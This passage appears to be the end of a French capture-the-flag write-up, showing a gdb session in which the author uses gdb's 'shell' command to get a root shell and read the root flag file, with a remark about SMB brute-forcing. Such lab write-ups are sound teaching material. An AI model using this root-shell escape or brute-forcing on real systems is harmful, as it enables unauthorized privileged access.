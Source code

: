 ```plain
tracepoints -- Tracing of program execution without stopping the program
user-defined -- User-defined commands

Type "help" followed by a class name for a list of commands in that class.
Type "help" followed by command name for full documentation.
Command name abbreviations are allowed if unambiguous.
(gdb) help support
Support facilities.

List of commands:

apropos -- Search for commands matching a REGEXP
define -- Define a new command name
document -- Document a user-defined command
--- snip ---
shell -- Execute the rest of the line as a shell command
show architecture -- Show the current target architecture
--- snip ---
(gdb) shell whoami
root
(gdb) shell /bin/sh
# cd /root
# ls
.bash_history   .cshrc      .history    .k5login    .login      .profile    .wget-hsts  root.txt
# cat root.txt
6e1356345d29ccfc1aa3eccefb8179a6714c8be2
```

Un CTF simple si on exclue la galère à avoir un outil de brute-force SMB fonctionnel ainsi que le léger guessing à devoir attaquer le compte root dès le début.

*Published November 17 2020 at 14 25*